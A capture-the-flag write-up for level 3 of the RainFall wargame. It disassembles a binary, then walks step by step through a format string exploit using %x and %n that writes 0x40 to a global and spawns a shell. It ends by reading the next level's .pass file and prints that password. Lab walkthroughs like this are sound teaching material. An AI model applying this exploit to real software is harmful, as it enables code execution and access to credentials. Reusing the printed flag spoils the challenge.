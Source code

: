 # Level 3


Lets see the assembly code :


```gdb
Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini

(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.

(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

Lets reverse it with ghidra.

```c

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}


void main(void)

{
  v();
  return;
}

```

We can't overflow the buffer, but the printf is direcly using the buffer as an input.

Its an obvious format attack string.

We can also see that the binary execute a shell, if m is == to 0x40.

m is probably a global variable.

We must find the address of the m variable, and insert the value 0x40, but how do we do it using printf ?

First me must find 'm' addresses like so :


```gdb
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

m address = '0x804988c'

Using the format string attack, we are going to print this address, and in C when we print addresses, it get pushed to the stack.

```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'" | ./level3 
��
level3@RainFall:~$
```

Now we must get printf to point to this address, and for that, we are going to print the address using %x until it reach our m variable.

like so :

```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x'" | ./level3 
�200
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x'" | ./level3 
�200 b7fd1ac0
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x'" | ./level3 
�200 b7fd1ac0 b7ff37d0
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x %x'" | ./level3 
�200 b7fd1ac0 b7ff37d0 804988c
level3@RainFall:~$
```

So we need 3 %x to reach our variable, know we must write 0x40 to it.

In printf there is a format called %n, it basically write the length of the actual buffer, into the pointed address.

0x40 = 64, so we must write 64 character and then call %n.

```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 64 + '%n'" | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
level3@RainFall:~$
```

It doesn't work, because we already wrote character, everything counts, we ajust the number of A we wrote to 39 so it reach 64 roundly.

```sh
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 39 + '%n'" | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
level3@RainFall:~$ 
```

Just need to keep a hand on STDIN and we get our flag

```sh
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + '%x %x %x' + 'A' * 39 + '%n'"; cat) | ./level3 
�200 b7fd1ac0 b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```